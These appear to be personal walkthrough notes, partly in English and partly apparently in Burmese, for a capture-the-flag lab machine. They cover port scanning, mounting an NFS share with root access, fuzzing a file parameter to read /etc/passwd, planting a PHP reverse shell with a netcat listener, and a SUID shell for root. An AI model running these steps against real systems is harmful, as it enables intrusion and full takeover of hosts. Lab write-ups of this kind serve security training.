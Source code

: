 
nmap -sV -sC 192.168.99.107

showmount -e 192.168.99.107   => bar twe sharing loke htar lal

=> i saw it
![[Pasted image 20230115204352.png]]


=> preparing for mount

mkdir /tmp/hack   

sudo mount 192.168.99.107:/mnt/nfs /tmp/hack

ls -al /tmp/hack   => go and check to this mount file

it's was running with root access

![[Pasted image 20230115204629.png]]


we run with root access like this

![[Pasted image 20230115204729.png]]

####### but now we can do nothing with this service 

------

=> Go check to web service 

gobuster dir -u "http://192.168.99.107/" -w /usr/share/dirb/wordlists/big.txt -x php,txt,zip,bak

-x  option ka extension ko pyaw dar



http://192.168.99.107/file.php?file=/etc/passwd    = we guess this param to get ( ?file )


*** we can try this way if we don't know how to search file path  or url path 

example  =>  192.168.99.107/file.php?aaa=/etc/passwd   => we don't now url path aaa is example

wfuzz -w /usr/share/dirb/wordlists/big.txt http://192.168.99.107/file.php?FUZZ=/etc/passwd  => we replace aaa -> FUZZ => to brute force     **** ma lot det har dwe myar nay dl

wfuzz -w /usr/share/dirb/wordlists/big.txt --hw 14 http://192.168.99.107/file.php?FUZZ=/etc/passwd   => we do this command cuzz --hw is remove like below word  => like 14 W

![[Pasted image 20230115211813.png]]


Here is result => without 14

![[Pasted image 20230115211849.png]]

So we use like this => abusing haha

![[Pasted image 20230115212001.png]]


We using that before we got file path

![[Pasted image 20230115212133.png]]


and then we download php reverse shell 

and then change the shell file name with this command

mv php-reverse-shell.php shell.php   **

and then we go to /tmp/hack     => for mount

and then copy the shell file => cp /home/kali/Desktop/hackdudo2/shell.php .   => . mean current folder

=> server mar => nc -lvp 4444  
=> client mar
![[Pasted image 20230115213330.png]]


User done #######

-----

rooting

we change to 777 permission to flag1.txt cuz this service was running with root permission

![[Pasted image 20230115213955.png]]

sh shell ko copy htal like dal

cp /bin/sh .   

chmod 777 sh

chmod +s sh   => sh file ko permission ma lo bal ya dal => but shell access ya nay ma ya mal

![[Pasted image 20230115214346.png]]

Before and After using chmod +s sh 

![[Pasted image 20230115214450.png]]


and then using python shell spawn to prevent from accident

python3 -c 'import pty; pty.spawn("/bin/sh")'



*****
suid error  ****

![[Pasted image 20230115233404.png]]
